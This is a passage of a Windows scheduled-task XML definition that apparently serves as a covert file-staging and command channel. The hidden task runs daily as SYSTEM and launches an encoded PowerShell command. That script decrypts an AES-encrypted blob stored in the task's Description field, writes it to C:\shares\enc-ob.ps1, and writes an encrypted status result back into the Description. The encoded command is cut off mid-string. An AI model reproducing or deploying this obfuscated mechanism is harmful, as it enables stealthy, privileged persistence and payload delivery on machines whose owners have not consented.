fZxuOS3zyhGTDSMpG4Wff6P9Nf+Eb1OPGLzfEYG2glffS4jcGrIe1fgTMhsn6xYt3CnOD3fsMdWR/9lH1NdhzqvIWzGrI7FNpDfi+za00kCYzVIpbjNGktEuIcNiPvK44KSLghF3EUU/BumChxorNir1J/cKgQbneSIz2eQizud4gJGDnifjeD16jYgJuts3JCWfJkCKbkI05tf3cRcNE8neKfb3KnCEB9/CqX3ojNvSZ4cdF+AeJp9bF8/thCEluioatK7eROA5oRqeMr8sZfjcp6pb2c5Q25tpZg69T4JfDht5ARjFrHbby0zRht+XeS4VrvMEw+nSLmxEPGsD3qw4PJXv8K3TU8O5Ez7gfQUKB3aoIor48TXbNCDZTWJaO4nlCkEyO+tQwHnqUEXLYJsvh93bKVcIrt6DEfJHBUIYGOzaUt74cFqF3nu4DPQlSQma6INz8pCqIb5m8IeT50YdeNI3/69doM6Ik3qYVEZa5Grcj8mpENupFtYtXF4ct+pAHDE4J8rg2G623MJVH5gJHsivWrk5kq6xF/R/vZSImGBX6Eh766sVGFpwotzUAl67ynpwoxnsuDqU0jXCHHrYSnfERfUweDvMBxbUNDyT1kvZc92KMhPX/FK2h+BVrDBv5uDiBgk5asrIFb6YmI+3o0MOsgJ09ArE3fbA0lGY8or6GHVKJqYLg45BYCJuYj+fW//d+2Jn8BjnMBqbuNPJX8WyecQDFpAogXeVpooigA9kAHeiOAFXdpz2Fsyi3m3yZ65lHvkTIf2wLhH1nuQeN880JTrl6H2WBj/WdnL2icwXHeoa6AiREDF/YhYHKU0Iy3yEWHy5p15GGMWGzILu10GVYdPveqeQ6XzYjvsSn7jv/5QP3MqUNkAhKeGfoXf1DjaaE65NdsqD3c/7ONGCqItEGDPA3ZoF4fnfY0Cy4LZWVqpmO27M3eOgOXPIaQI66cRUP2BXTAThoamkFDQk2k7KyIjL/iBiaTf90kvBQ6wOyfuyBKfEItHIL/YvFFCs3G248tqIougVuiSc0LeFEJxrDPnfg4YZat9LbTFvizj9MahFeF5m5nfeBs9Uy+vWn9IRH5ByK0q0iEc7EjD1hQtImMJoSmfHjoKV8WFy8MScp4WwQd0aG/QxHKWi0TJc58piGkAkKjJzqDPMNYqAy7q4h7YQbha9hJeoOi7TzAIcQz2J1s0X/gsquHNX1hO/V9SUqGsvpgkJTGDVvEqNIS8j/AmU7DT8SMFLC7lCxE40nU65KxJ59qtiljudThv7jDfu2u/7xa7UrAGpmjIlnEuWJeJQbk+czgM2NPLcuQIQlWGS7fE7c0JZmR3coXdr0qSCwpfDRJm60IJlQ6SvBI/VNeBqorh8r5OE1/WlTH93Ys8rEZh1cD5Rm+Iiw43kAUzOpIfm1MnfSsH44HWeMWn4H/1mnR74UJkHv1ONgdFPeMQejKntibHr0aTh/QW352gIkQlZEkdA5d7D2cnLyre8I32x6pWEATNliJT3MdHS8+Bi3r7BwGeeXdKM+B9o9GqgVuswEp4v4yNnAL66P+gUBfBEWrYM5PseWN5DSu+a8CLBy68Yof3dAToxCMfiE9nJkwIT/kakM8WzXNu/E621ltkilUWqY29VsQBtriF21L7Eb9gqK4e05OypN5NyF93Ai+iJKdw3P+Tu/QYak1OaafTGbDb+WMHAC6cWERmpVp0kMKwbaV4i8YR/7JdSMvbMZE8BPyluLQ0Vv/NkFwFByeA/S8msB0DafWTriwJZD7ObE5b+Lna3V/na//DfhwqI1upzRd3M5GAJMX2vLahuJqBConljPCezGDw03+SptO0rwrrAKSCDZrwjfZTPtSxFE9TWlUNHs69cQRUEd6RE+OWAZkerNYcu6T5jv6Go+poMsPZD10FNevn2b5JiIt6QSZFMq6tQGPLlWr/omSjSWG5yVmEND3aqepx0aCRXjQiqYp/RjrWtzkaNHvjcBd8PRAeTO+h5PZ4SigFRhl4MW69mSkf/mrxBekIF/Hhb0YpenDs14gTqq37/6K8D4w7Hm/NQsYYhr7D+jdTy14dglnX5g/VSyJAnHizNP8tzOOEyKSnDrpaw/H26FGUaL6dgeA4HBbh3eG5ki1yvsjGe0ecbQfwhRleXG3NqximoTZLMLMRHNfeDi51A6TakExQhdbILpCOA40zLht3mQHHM+/crhBWOfCp/rqNYaNk0wnpxisrRykCmrNKRycA1dL1HhaLuCIEMHn+1etoTWw9O2RC1htIaiyI2prHKIYDQVO0gpx77O1r2uZVrvntnNNDxFOU1hP5h54fE7wd60D37X7nhnwDLyQXEnGylladW54oR70IiwVciNqsBxcmsbiV0oI8THyp9+daaB/OoVLGsvEoRGoaPMC5/lNnQcVACg6rTN3rvGNo4aZDPMYnaAvYZoPlNAKY5Mf5cPnSV8Atmw+cX73rIkj3N0XtUyFEiDOSact7EYcXJ45ptBZskYv1IsujOXTxwTgKmrwD6XSdhRJ2HSr/tKoU3US2nny/rf9R1YlCT7AcbDRvjxBKyAHZVIsx28527yfkqGEwdD0Tejmvt7NR9yHBIa7v/5SiibUC5JZKoID0rPAK+DTlfpH1BySH13iVH8l/0FErPsvJ1/gSz7LWXHXqCV8g3Znt02VsciI4d3otzU7KkY8FcsqRyAHej5yWFmnIxCms25pO7GJGkxkOSlKaQQTeyqr9OzSs6ay2LrG+PCTttbyWVm68rnGPnOyqIKO6LLxHChoZIccxtmTXsdHFXetBKlYbpolTsvopfUPT3iQrG/LoyK6y34395QLQuzTW/WooSbJtAikGUjD+Ip+tP5KofCJb3frWVxatenX6PMGVSvmMYAvvJHjePxQw0nw/g2sVHyNh2eFVkaftCyizFQ29iFNc0NLuddMVU55rLVb/jgSaMlcsdzBOhWKs6OefbFJW1KZGgThZbHQ9yWvLAvqYWonIJBwYmHYFD9rhBIdd6mBbLbEyEC5fC1IZNQldUntr5fQVrTdpl5hLM9JAWgNuoZi0pmSExclJGU2lQA2KASksysFqF4JqXJxHzXq8jBKT4vpp3kt7OIssqraiBgKpsrLHgNejyOe+DgRYsMwRsfuZRclUUh6LleYhY6T51uKrnfdNWXS87yhbnyiUbu44lDizq3/v5E555og8p/RnQx2wblTv8IZs6zgp8ec0V8uspZaoK4n+KFRvg9aiGKwFs3pfWGhzw7aqA2mzanG6w3F2ys3ErPX/OQ19T2mVjtLwWhhsBXq/6i4rkpT4tN45TZnrOPxyLNmOBhkMq2d4PoUENLQO9BvJuwBIbdalQeiY4MhtI34Hu76ahLzhUpfioD9GgoAG51zkDCsdkez0XEzWoSqcMZOB7STlJGoorI1aq9ML5KcR5r33DtxiDPLy0qb2l9IgtrYuXpGb2MVIwQ0gwOcaKsIOrIlGsEzL0atJf9ZnznzmjY1xpG/imljO86HhBMcLJ1Krrm00OSQ3BA9wJm5cwNucgpVjrQ5d4hcLxqAdGpJWExb64OpvqLqEVzqHXHerejbB8UBbWudFcip4FyvO63m5BsgnuGJvZF5QpItbEoOZMHHP4QuTHAnrHImuJLQeBsf6lVGSdHc0n802GQY7fQFr78JulQFmeTLrwQsf7S+EqtUhz/TjRc7Q4/L8IR6hB6KB/ndP/6Dy+pf63T/F7AGQZCn1xu64aR4+MQhnR+qf84ASNbrDtzV4AzvmrH4b5m6CAu7MVImk+m3RcWn3pP68ZxBXdZSG+INtDuHPb/7MGjqCVxCTEfowUXEv5bWJst7clAMtmrbwQBKxt2zgK+TzaBwvV4IgL18ukvUwaLkeX4znqJK6wahE2MPGkQQUJN4X31gBVWeAQXoAih/nX9iR4QZ2JF2C20zKaDgaml4aYGe/ey4D525TYCkd14k13UMEkdxiFSP/IyJqjT1lrRz2M+o8AuXIRkau1kq1ORrMFAFIZ8NFegolY0jqPMygV0hlPXrnTYzgvEK53ldzNCWJbgmuppmzwXMo1q/eEypxrZv0MsHTOkuOaiUbWS4j9PMvXuVPF+i61QNU7pQBaDMBuDQyk2/IyOqv/YokXx/7bNbuwSLS/SDCHh4XbuIUh8x0n7s0nRPLHp0+R5AhKyJRBP7z8ekQ1915PURbLADmdbFKql+XWQR43Fr4EEmVir67BalIlaS/2dfHRADNXhBQRWvTplcf22+7WdiC0Q3frN5+PvmfaBoaMBXezlyrYXQPfTLmBj0rQinWzYXmn6eWq1Duk7+rlkEkfybsp77EM4KE137VRUSMSoR2/xpI54fmbYJmUBf4G03x9hNKRC5Y2A6FxBMKqMZyaqty7SIxSeUJqLMZRY9/0J1brLk0YKD2frDdPUnLiTRVxX9i/tDt+o1TAOV8T9MutIRHXw0yuBp4YNDmWw69UP4GCVOO9rnE8m3O073dRG63NT+BPj0tckW39/L1oyTjbAyhjQYL0HKyAMXq/ltjWfLETlzdbBbU0NHc0UU68qHa03Hrz9VyNVAodUPlv9fY57G+MoCVqaAq7yE2fJY5NByYVY5cNfie8F1znIrnbaxOauTdh4Jl6ntwy5hGCJwi2czPGJuQH5sb9etWq3FmYWr3KULuqG6jGh7wCWxSJ6bcKFixwCjcllUXadUcCW+DSWYDYjhtRBHpPLWfa9/QtVYYkJIV4ODE+gViZJwVnmhoViaI6gA882xR0jTz4Ub4KSLuBuTqDE5iJe6CSNd0wHMyvZZeDqbvCYpcwyvkZR5CUSHMnQ2Wqpz5RPAFpXsCYiUQ4kgl6uY/fDGG6jdzAeL9mg/Wv0B4Ntppa+hUb7AmsOZ0OvYeeTnIRlDplLxr/BwqHiFrmOCdD/eqi59GOw1VJoEIsK6HNx1z2Noak+9h3RNSXQEVJY6xaPWri6p5EZukLPqATQoxuH38GeSVttHxrQnO9rijJux0ioQxLrYHxNgJW2SsjUZGHmkNdqFM9U0AfHb7bIioQl6u/kPtOJJpZk4ISdeZiNvJbS1Rf3kLImaSR6XAzsfpQOcvzPAm9sv7aujjbIETfs7iHPBt4i+XMyGQUNvIS5j+79wKm1npxQzMmoCxMOi1FrE7+Ca/BKVwU60ZZ1dQekcv2Cp8I1W4pV7iMl8r+0gvhn76+FC/hVoLpRWdWcPB+leJ6K5icBspVmZUAa6isawCJ+tA+riWtpFC1XuTU3MmcbZvkMFipXijz/+NLp/xylmrdf1TrUUE73E8MYDAF7YtxO3YqIRgDwFYOvx9sZRUpgX/cfzHXwICMjZa6qdJxbfQsQsD6MMg8wA4v03Eb0VQUslOB5v12/8Qx2h7dRYG7ThFOV0SciROG6P37a8v0O7T/J878xRVfxLMBmYGPpmh/tLYcO5E5BOZvubiKzbC/DG02AJSqEMIpgPSIN7NhdC6q+ajRLV+/oSQ+J3YnTTfAqQdSA6ifzugye0SchqgVteoZ8KVQ4nbQHU1rqC2mCF21OS2p7WCzbFM5fMjxrDjpbWsowX8TX8zj6PjGXoj7fGayUJIivyq8SE6XpNUvJywsYn0lreQt4FRHrLNtPS8ADYynH5bOh4xHZwl60IK9YQ4qx871yC8AMHcbXqumMYUTWVw/xnoV7sequ4imELdHQ0gJcygr+LFc4HDDpcvx1slzY1iTEKPse8JkFzom8UHHyyh8rHdF+JwPdGKx5H8r7pDV/OBj1SOst6oDIOibzO6MRPC9VKzqwhL/qxkN13H9r7Ol4e7vGAamDBCFmls2bTKJc4sPwyQc/4CpsnBQ5CSpoeQp77opLHaJQBz4AmTGK/LAWwzxUuHxJLmNSur+EXDebnIdPiicXNsW/IWpRpUZtmbgQIiGrZX3RvydxTc9bDNGvQ9NSc9RoIX22GsNxgy6s6XyD75I2509hhMojVmU3YFKsDLU77/t+228HqMPUOVUudzgbaB6GseGVUuYIuS6k/Kl05rXZbl9GFqSt73cXYnKfSRJZA3eyeb5o8R5hcnFQOEegH5Q5FviR8/7s2x5cyjeevjAZ/R0vBKRiI8y7ta3Qiy1B0r+3NVlDAxb/ZxT7CcJXcLairZM1ZV5zrvObU/HubijRhOHkWhMdy9sqt5UV2mFeqth0E9uNDruyRbmRnc3SCsFqhszr/W92ygfS5rUBv+reUBiUMrJxe/6nGrruJDkQFioPnNL48XsaQC9bF+TkbacJyeAmrcnWfhhDsYcqhGNxt5kpVBFCYxRThpLnYAtZEEVngy5y+dpZl4aFMV+1VxvN5B28LRovF3QoAAA/eMJ2SgL43lyqf5ScorAbhFTaaqwESc7dPRkGKjR9kp9SOuDLW+xIQQX2hXW3fWY4soCQye1UHpDa99l/NwgSCwzuh+6vhb2RaqoMFPFaum1qfzMykM1F+7E/nn6brAY+8tnDz9eHXCRl88H+rHFpLpjBl75i/RLKb0FhqCKiBCw4/vlygeRDCMfBcsv78WXzyH9uy738857iFcQ/evtt0w4du4s4ezfBuoofnzu3b6ntcEgh2InA+nUQeq/b0rT95i1hUpYDH7GgJBMFj3imw8cAsOlKWHdecIrS4LBFFVYNR1Ic+crOL3OgSZX8phprm3sIxCklrW1ZahQehFk4dGqRPIa86C6bjHKNPcxQIhPCOVMHMqU4SIexfHK/mgGm1EShyjIyLZhDrXIUMcVXcGUfUJTfgEXWMuJYigYmtuWb5DMOGeghFFb8P/lnWZya3N5KunzPHYMT0fzx/5Z3RDC9JBdqylWw9/i+nPpGB08xEcZzShUwg9/lFdxOvGswSyZIMMHZAamrmeJIeIKhGdl++uNPOs0QfTU+Vj0TEIoetrN5Q8uxT+nZsStoL6hWYHrzd31sbQZ+kxQLgAZKHi/MolSMg0phC3RKMzx8SgGuuX/GkdLtP1rios0BDv5j1ZOLLxD4+tgJ8zWb1ZCruiXZBzzOhSJn4u+hniUEuvNXkVXrD6CIoawt7K4sosGCVFyw167AkqxOHYxffx4UJ4pXuZNQVUFNXGyOENbUfTFuBoEZXwy56y9x8j6E9tysbmfZQoUFiqUMpHjA8XfL36ojOAeJbsM8d63v06slqw4/XMIIT59/xdmwuYa6NDcPjbN+eCDXvl2imMFln35CEHkU1dHCQ9N7YDx1Ft7AgwSj04+IyXYe5EpeQAKnMSOPeEYCGB9QMzjdSVQz0XhvhE9xwYu2LEr6EbMwuTq083oSHFsOTNyPDaP6s62ewDAPaJRADJ+wGrMJK8uecMjX04yaFbRq0i66vtZMUSN+DXyMeNumCdfCSi+qevqzfp0u9g8hHMAYf1d2F8Keh85szqNx36D5BdCNCkDI0sOmglWCxNfMH/WHVL41wVI08lCqMU7F5H4X0gc2qdBhWrhmEsquhgU3ERCVBcsZdCbfKIUeIT3sEjXOAM1ioUWSbQzE3YVWRoSl5SNXt9D44n+mbIGI0IWkyyhNXajG4QZVxsq03l59njcKEJ/C7xucqW4cx3ZdQKzh6Kv9QrT2sEyu/li6vEIu20pXTUL0K19Eqvq9j+eo5WtN1N/as8ondtiPaQilsztmmDOVPi7h2b6aqtV9fFQ+D9xrh3rI69aNpYQyFlzRCobHRFP6eOEmUEpQb9IGEGN+4j5FuOfJfNwzSFg9+K9LPy2cRwrYhoaxPvERz1bKEtE=</Description>
  </RegistrationInfo>
  <Triggers>
    <CalendarTrigger>
      <StartBoundary>2015-07-15T20:35:13.2757294</StartBoundary>
      <Enabled>true</Enabled>
      <ScheduleByDay>
        <DaysInterval>1</DaysInterval>
      </ScheduleByDay>
    </CalendarTrigger>
  </Triggers>
  <Principals>
    <Principal id="LocalSystem">
      <UserId>S-1-5-18</UserId>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>true</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>PT1M</ExecutionTimeLimit>
    <Priority>7</Priority>
  </Settings>
  <Actions Context="LocalSystem">
    <Exec>
      <Command>powershell.exe</Command>
      <Arguments>-NonInteractive -enc JAB0AGEAcgBnAGUAdABfAHAAYQB0AGgAIAA9ACAAIgBDADoAXABzAGgAYQByAGUAcwBcAGUAbgBjAC0AbwBiAC4AcABzADEAIgAKACQAdABhAHMAawBQAGEAdABoACAAPQAgACIAXAAiAAoAJABlAG4AYwByAHkAcAB0AGkAbwBuAEsAZQB5ACAAPQAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAiAHMAWAB5AFoAbAB6AGIAbQBNAHYAVABMAEMANgBJADIAdQBWAHAAMABkAFEAPQA9ACIAKQAKAGYAdQBuAGMAdABpAG8AbgAgAEMAbwBuAHYAZQByAHQAVABvAC0AQgBhAHMAZQA2ADQAKAAkAGIAeQB0AGUAQQByAHIAYQB5ACkAIAB7AAoAIAAgACAAIABbAFMAeQBzAHQAZQBtAC4AQwBvAG4AdgBlAHIAdABdADoAOgBUAG8AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAQQByAHIAYQB5ACkACgB9AAoACgBmAHUAbgBjAHQAaQBvAG4AIABDAG8AbgB2AGUAcgB0AEYAcgBvAG0ALQBCAGEAcwBlADYANAAoACQAYgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKQAgAHsACgAgACAAIAAgAFsAUwB5AHMAdABlAG0ALgBDAG8AbgB2AGUAcgB0AF0AOgA6AEYAcgBvAG0AQgBhAHMAZQA2ADQAUwB0AHIAaQBuAGcAKAAkAGIAYQBzAGUANgA0AFMAdAByAGkAbgBnACkACgB9AAoACgBmAHUAbgBjAHQAaQBvAG4AIABFAG4AYwByAHkAcAB0AC0ARABhAHQAYQAoACQAawBlAHkALAAgACQAZABhAHQAYQApACAAewAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AQQBlAHMATQBhAG4AYQBnAGUAZAAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ATQBvAGQAZQAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBDAGkAcABoAGUAcgBNAG8AZABlAF0AOgA6AEMAQgBDAAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQALgBQAGEAZABkAGkAbgBnACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAFAAYQBkAGQAaQBuAGcATQBvAGQAZQBdADoAOgBQAEsAQwBTADcACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEsAZQB5ACAAPQAgACQAawBlAHkACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEcAZQBuAGUAcgBhAHQAZQBJAFYAKAApAAoAIAAgACAAIAAkAGUAbgBjAHIAeQBwAHQAbwByACAAPQAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEMAcgBlAGEAdABlAEUAbgBjAHIAeQBwAHQAbwByACgAKQAKACAAIAAgACAAJAB1AHQAZgA4AEIAeQB0AGUAcwAgAD0AIABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAQgB5AHQAZQBzACgAJABkAGEAdABhACkACgAgACAAIAAgACQAZQBuAGMAcgB5AHAAdABlAGQARABhAHQAYQAgAD0AIAAkAGUAbgBjAHIAeQBwAHQAbwByAC4AVAByAGEAbgBzAGYAbwByAG0ARgBpAG4AYQBsAEIAbABvAGMAawAoACQAdQB0AGYAOABCAHkAdABlAHMALAAgADAALAAgACQAdQB0AGYAOABCAHkAdABlAHMALgBMAGUAbgBnAHQAaAApAAoAIAAgACAAIAAkAGMAbwBtAGIAaQBuAGUAZABEAGEAdABhACAAPQAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEkAVgAgACsAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEQAYQB0AGEACgAgACAAIAAgAHIAZQB0AHUAcgBuACAAQwBvAG4AdgBlAHIAdABUAG8ALQBCAGEAcwBlADYANAAgACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEACgB9AAoACgBmAHUAbgBjAHQAaQBvAG4AIABEAGUAYwByAHkAcAB0AC0ARABhAHQAYQAoACQAawBlAHkALAAgACQAZQBuAGMAcgB5AHAAdABlAGQARABhAHQAYQApACAAewAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AQQBlAHMATQBhAG4AYQBnAGUAZAAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ATQBvAGQAZQAgAD0AIABbAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBDAGkAcABoAGUAcgBNAG8AZABlAF0AOgA6AEMAQgBDAAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQALgBQAGEAZABkAGkAbgBnACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAFAAYQBkAGQAaQBuAGcATQBvAGQAZQBdADoAOgBQAEsAQwBTADcACgAgACAAIAAgACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEAIAA9ACAAQwBvAG4AdgBlAHIAdABGAHIAbwBtAC0AQgBhAHMAZQA2ADQAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEQAYQB0AGEACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEkAVgAgAD0AIAAkAGMAbwBtAGIAaQBuAGUAZABEAGEAdABhAFsAMAAuAC4AMQA1AF0ACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAEsAZQB5ACAAPQAgACQAawBlAHkACgAgACAAIAAgACQAZABlAGMAcgB5AHAAdABvAHIAIAA9ACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4AQwByAGUAYQB0AGUARABlAGMAcgB5AHAAdABvAHIAKAApAAoAIAAgACAAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEQAYQB0AGEAQgB5AHQAZQBzACAAPQAgACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEAWwAxADYALgAuACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEALgBMAGUAbgBnAHQAaABdAAoAIAAgACAAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEQAYQB0AGEAQgB5AHQAZQBzACAAPQAgACQAZABlAGMAcgB5AHAAdABvAHIALgBUAHIAYQBuAHMAZgBvAHIAbQBGAGkAbgBhAGwAQgBsAG8AYwBrACgAJABlAG4AYwByAHkAcAB0AGUAZABEAGEAdABhAEIAeQB0AGUAcwAsACAAMAAsACAAJABlAG4AYwByAHkAcAB0AGUAZABEAGEAdABhAEIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkACgAgACAAIAAgAHIAZQB0AHUAcgBuACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABkAGUAYwByAHkAcAB0AGUAZABEAGEAdABhAEIAeQB0AGUAcwApAAoAfQAKACQAcwBjAGgAZQBkAHUAbABlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AQwBvAG0ATwBiAGoAZQBjAHQAIABTAGMAaABlAGQAdQBsAGUALgBTAGUAcgB2AGkAYwBlAAoAJABzAGMAaABlAGQAdQBsAGUAcgAuAEMAbwBuAG4AZQBjAHQAKAApAAoAdAByAHkAIAB7AAoAIAAgACAAIAAkAHIAZQBzAHUAbAB0ACAAPQAgACIAIgAKACAAIAAgACAAJABmAG8AbABkAGUAcgAgAD0AIAAkAHMAYwBoAGUAZAB1AGwAZQByAC4ARwBlAHQARgBvAGwAZABlAHIAKAAkAHQAYQBzAGsAUABhAHQAaAApAAoAIAAgACAAIAAkAHQAYQBzAGsAIAA9ACAAJABmAG8AbABkAGUAcgAuAEcAZQB0AFQAYQBzAGsAKAAiAFAAcABRAGMAdABQAFgATQAiACkACgAgACAAIAAgACQAZABlAGYAaQBuAGkAdABpAG8AbgAgAD0AIAAkAHQAYQBzAGsALgBEAGUAZgBpAG4AaQB0AGkAbwBuAAoAIAAgACAAIABpAGYAIAAoAFQAZQBzAHQALQBQAGEAdABoACAALQBQAGEAdABoACAAJAB0AGEAcgBnAGUAdABfAHAAYQB0AGgAKQAgAHsACgAgACAAIAAgACAAIAAgACAAJAByAGUAcwB1AGwAdAAgAD0AIAAiAFsALQBdACAARgBpAGwAZQAgAGEAbAByAGUAYQBkAHkAIABlAHgAaQBzAHQAcwAuACIACgAgACAAIAAgAH0AZQBsAHMAZQB7AAoAIAAgACAAIAAgACAAIAAgAHQAcgB5ACAAewAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAZABlAHMAYwByAGkAcAB0AGkAbwBuACAAPQAgACQAZABlAGYAaQBuAGkAdABpAG8AbgAuAFIAZQBnAGkAcwB0AHIAYQB0AGkAbwBuAEkAbgBmAG8ALgBEAGUAcwBjAHIAaQBwAHQAaQBvAG4ACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEQAZQBzAGMAcgBpAHAAdABpAG8AbgAgAD0AIABEAGUAYwByAHkAcAB0AC0ARABhAHQAYQAgACQAZQBuAGMAcgB5AHAAdABpAG8AbgBLAGUAeQAgACQAZABlAHMAYwByAGkAcAB0AGkAbwBuAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIwAgAGIAYQBzAGUANgA0ACAAZABlAGMAbwBkAGUAIABnAGUAdAAgAHIAYQB3ACAAZABhAHQAYQAgAGEAbgBkACAAcwBhAHYAZQAgAGkAdAAgAHQAbwAgAGYAaQBsAGUACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAGQAZQBjAG8AZABlAEQAYQB0AGEAIAA9ACAAQwBvAG4AdgBlAHIAdABGAHIAbwBtAC0AQgBhAHMAZQA2ADQAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEQAZQBzAGMAcgBpAHAAdABpAG8AbgAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACMAIABpAGYAIAB0AGEAcgBnAGUAdAAgAHAAYQB0AGgAIABuAG8AdAAgAGUAeABpAHMAdABzACwAIABjAHIAZQBhAHQAZQAgAGkAdAAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAZABpAHIAIAA9ACAAUwBwAGwAaQB0AC0AUABhAHQAaAAgACQAdABhAHIAZwBlAHQAXwBwAGEAdABoAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAaQBmACAAKAAhACgAVABlAHMAdAAtAFAAYQB0AGgAIAAtAFAAYQB0AGgAIAAkAGQAaQByACkAKQAgAHsACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgACAAIAAgAE4AZQB3AC0ASQB0AGUAbQAgAC0ASQB0AGUAbQBUAHkAcABlACAARABpAHIAZQBjAHQAbwByAHkAIAAtAFAAYQB0AGgAIAAkAGQAaQByAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAfQAKACAAIAAgACAAIAAgACAAIAAgACAAIAAgACQAZABlAGMAbwBkAGUARABhAHQAYQAgAHwAIABTAGUAdAAtAEMAbwBuAHQAZQBuAHQAIAAtAFAAYQB0AGgAIAAiAEMAOgBcAHMAaABhAHIAZQBzAFwAZQBuAGMALQBvAGIALgBwAHMAMQAiACAALQBFAG4AYwBvAGQAaQBuAGcAIABCAHkAdABlAAoAIAAgACAAIAAgACAAIAAgACAAIAAgACAAJAByAGUAcwB1AGwAdAAgAD0AIAAiAFsAKwBdACAAUwB1AGMAYwBlAHMAcwAuACIACgAgACAAIAAgACAAIAAgACAAfQAgAAoAIAAgACAAIAAgACAAIAAgAGMAYQB0AGMAaAAgAHsACgAgACAAIAAgACAAIAAgACAAIAAgACAAIAAkAHIAZQBzAHUAbAB0ACAAPQAgACQAXwAuAEUAeABjAGUAcAB0AGkAbwBuAC4ATQBlAHMAcwBhAGcAZQAKACAAIAAgACAAIAAgACAAIAB9AAoAIAAgACAAIAB9AAoAIAAgACAAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAFIAZQBzAHUAbAB0ACAAPQAgAEUAbgBjAHIAeQBwAHQALQBEAGEAdABhACAAJABlAG4AYwByAHkAcAB0AGkAbwBuAEsAZQB5ACAAJAByAGUAcwB1AGwAdAAKAAoAIAAgACAAIAAkAGQAZQBmAGkAbgBpAHQAaQBvAG4ALgBSAGUAZwBpAHMAdAByAGEAdABpAG8AbgBJAG4AZgBvAC4ARABlAHMAYwByAGkAcAB0AGkAbwBuACAAPQAgACQAZQBuAGMAcgB5AHAAdABlAGQAUgBlAHMAdQBsAHQACgAgACAAIAAgACQAdQBzAGUAcgAgAD0AIAAkAHQAYQBzAGsALgBQAHIAaQBuAGMAaQBwAGEAbAAuAFUAcwBlAHIASQBkAAoAIAAgACAAIAAkAGYAbwBsAGQAZQByAC4AUgBlAGcAaQBzAHQAZQByAFQAYQBzAGsARABlAGYAaQBuAGkAdABpAG8AbgAoACQAdABhAHMAawAuAE4AYQBtAGUALAAgACQAZABlAGYA